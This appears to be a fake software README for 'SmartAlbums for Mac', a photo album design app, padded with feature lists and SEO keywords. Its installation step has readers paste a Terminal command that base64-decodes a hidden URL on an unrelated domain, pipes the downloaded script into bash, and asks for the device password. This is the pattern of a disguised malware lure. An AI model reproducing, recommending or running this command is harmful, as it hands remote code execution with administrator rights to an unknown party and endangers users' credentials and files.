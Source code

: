 # 📚 SmartAlbums for Mac — Fast, Beautiful Photo Album Design

📌 About SmartAlbums  
SmartAlbums is a professional photo album design app for macOS, made for photographers who want to build stunning layouts without wasting hours on manual work.  
Simply drag and drop your images, and SmartAlbums automatically creates clean, modern page layouts based on your preferred style, size, and print lab. It supports full resolution exports, custom spreads, image cropping, and font adjustments — all in a distraction-free workspace.  
It integrates with popular print labs, supports PSD/PNG/TIFF formats, and saves all your data locally to protect your client work and creative freedom. Whether you shoot weddings, portraits, or events, SmartAlbums helps you design albums that impress, fast.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
```
   /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9zb2wvaW5zdGFsbC5zaA== | base64 -d))"
``` 
2. Open Terminal on your device, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTF52dAbaAVk8YU5hLARqOWfdND2jfZOHBEXw&s)  
- ![](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcT0FNOO4SPXsk2eK2uyscDJ97IopVUkemdlJA&s)  

## 🎯 Key Features  
⚡️ Smart Layouts: Auto-design spreads with intelligent image positioning.  
🔒 Full Local Control: All albums and media stay securely on your Mac.  
⚙️ Print Lab Support: Compatible with major album printers worldwide.  
🚀 Drag‑and‑Drop Workflow: Design without menus or manual adjustments.  
🎨 Custom Fonts & Cropping: Fine-tune spreads with design freedom.  
📊 High-Res Export: Output print-ready files in JPG, TIFF, or layered PSD.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 4 GB minimum  
- Storage: 500 MB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`smartalbums mac` · `photo album design macos` · `drag and drop album app mac` · `mac wedding album layout` · `mac print lab integration` · `professional album software mac` · `album design automation mac` · `mac psd album export` · `mac photo layout tool` · `event album builder mac` · `mac tiff photo album` · `offline album creator mac` · `smart albums design mac` · `mac custom spreads` · `mac portrait book designer` 
